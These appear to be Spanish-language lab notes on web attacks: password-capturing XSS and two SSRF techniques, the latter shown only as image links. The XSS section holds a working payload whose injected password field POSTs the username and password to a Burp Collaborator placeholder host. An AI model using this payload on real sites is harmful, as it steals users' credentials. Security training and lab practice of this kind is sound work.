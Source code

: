 # Explotación de secuencias de comandos entre sitios para capturar contraseñas


```
<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```
![[01.XSS_CapturaContraseñas.png]]
![[02.XSS_CapturaContraseñas.png]]
![[03.XSS_CapturaContraseñas.png]]
![[04.XSS_CapturaContraseñas.png]]

# SSRF con omisión de filtro a través de una vulnerabilidad de redirección abierta

![[01.SSRF_OmisionDeFiltro.png]]
![[02.SSRF_OmisionDeFiltro.png]]
![[03.SSRF_OmisionDeFiltro.png]]
![[04.SSRF_OmisionDeFiltro.png]]

# SSRF a través de un análisis de solicitud defectuoso

![[01.Analisis_SolicitudDefectuoso.png]]
![[02.Analisis_SolicitudDefectuoso.png]]
![[03.Analisis_SolicitudDefectuoso.png]]
![[04.Analisis_SolicitudDefectuoso.png]]
![[05.Analisis_SolicitudDefectuoso.png]]
![[06.Analisis_SolicitudDefectuoso.png]]
![[07.Analisis_SolicitudDefectuoso.png]]
![[08.Analisis_SolicitudDefectuoso.png]]
![[09.Analisis_SolicitudDefectuoso.png]]
![[10.Analisis_SolicitudDefectuoso.png]]
![[11.Analisis_SolicitudDefectuoso.png]]
![[12.Analisis_SolicitudDefectuoso.png]]
![[13.Analisis_SolicitudDefectuoso.png]]
